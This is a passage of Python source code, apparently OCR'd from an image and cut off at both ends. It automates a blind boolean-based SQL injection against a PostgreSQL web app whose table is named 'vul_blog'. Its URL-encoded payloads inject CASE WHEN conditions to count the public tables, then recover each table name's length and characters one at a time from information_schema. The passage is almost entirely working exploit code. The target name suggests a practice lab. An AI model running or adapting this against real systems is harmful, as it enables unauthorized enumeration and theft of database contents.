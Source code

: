 ```python
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
}

def get_table_info_from_information_schema():
    # table 개수 조회
    table_count = 0
    table_count_get = False
    while table_count_get is False:
        payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20
                    WHERE%201=1%20AND%20case%20when%20(SELECT%20count(table_name)
                    %20as%20cnt%20FROM%20information_schema.tables%20WHERE%20
                    table_schema=%27public%27)%20<=%20{table_count}%20then%20true
                    %20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20
                    LIMIT%201%20offset%201%20--"""

        table_count = table_count + 1
        url = f"{server}{id}{content_param}{payload}"
        resp = requests.get(url=url, headers=headers)
        if exists_check(resp.content):
            table_count = table_count - 1
            table_count_get = True


    # table list 추출
    table_row_list = []
    # public table 개수 만큼 loop
    for table_row in range(0,table_count):
        # table 명 길이 조회
        for table_name_size in range(0,50):
            payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND
            %20case%20when%20(select%20length((SELECT%20(table_name)%20as%20cnt%20FROM%20information_schema.tables
            %20WHERE%20table_schema=%27public%27%20offset%20{table_row}%20limit%201)))%20<=%20{table_name_size}%20
            then%20true%20else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
            url = f"{server}{id}{content_param}{payload}"
            resp = requests.get(url=url, headers=headers)
            if exists_check(resp.content):
                break
        # table 이름 사이즈 만큼 루프
        table_name = ""
        for i in range(0,table_name_size):
            for ascii in range(0,128):
                payload = f"""-\\>%27)%20AS%20"mydefinedname"%20FROM%20"vul_blog"%20WHERE%201=1%20AND%20case%20when
                %20(select%20ascii(substring((SELECT%20(table_name)%20as%20cnt%20FROM%20information_schema.tables%20WHERE
                %20table_schema=%27public%27%20offset%20{table_row}%20limit%201),%20{i},1)))%20<=%20{ascii}%20then%20true%20
                else%20false%20end%20%20GROUP%20BY%20"vul_blog"."title"%20LIMIT%201%20offset%201%20--"""
                url = f"{server}{id}{content_param}{payload}"
                resp = requests.get(url=url, headers=headers)
                if exists_check(resp.content):
                    table_name = table_name+str(chr(ascii))
                    break
        table_row_list.append(table_name)

    print(table_row_list)

def get_column_info_from_information_schema():
```
